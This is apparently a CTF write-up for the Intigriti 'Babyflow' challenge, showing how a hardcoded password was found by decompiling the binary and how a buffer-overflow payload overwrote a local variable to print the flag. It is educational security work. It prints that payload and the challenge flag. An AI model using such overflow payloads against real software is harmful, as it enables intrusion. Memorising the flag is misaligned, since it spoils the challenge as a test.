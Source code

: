 ## **Challenge Name: Babyflow**

### **Solves**
- **Solves**: 438  
- **Points**: 50

### **Description**
Does this login application even work?!  

**Attachment**: [babyflow](Resources/babyflow)  
**Connection**: `nc babyflow.ctf.intigriti.io 1331`  

---

### **Approach**

1. **Analyzing the File Type**:
   - We started by identifying the file type of the provided `babyflow` binary:
     ```bash
     file babyflow
     ```
   - The result indicated that it is an **x64 ELF Executable**.

2. **Executing the Binary**:
   - After giving the necessary file permissions using `chmod`:
     ```bash
     chmod +x babyflow
     ./babyflow
     ```
   - The binary prompted us to **enter a password**.

        ![image1](Resources/image1.png) 

3. **Decompiling the ELF File**:
   - Using a decompiler (e.g., `Ghidra` or `IDA`), we analyzed the binary and discovered the hardcoded password:  
     ```
     SuPeRsEcUrEPaSsWoRd123
     ```

        ![image2](Resources/image2.png)
   - However, the issue was with the variable `local_c`, which was initialized to `0`. As long as `local_c` remains `0`, the program refuses to reveal the flag.

        ![image3](Resources/image3.png)

4. **Exploiting the Buffer Overflow**:
   - Observing the code, we found that the `local_c` variable was located near the memory segment for the **password input**.
   - We crafted a payload to overflow the buffer and overwrite `local_c` with non-zero values (`\x01`).

   **Payload**:  
   ```plaintext
   SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAAAA\x01\x01\x01\x01
   ```

5. **Getting the Flag**:
   - Running the binary with the payload revealed the flag:
     ```
     INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
     ```

        ![image4](Resources/image4.png)
---

### **Flag**
```
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
```

---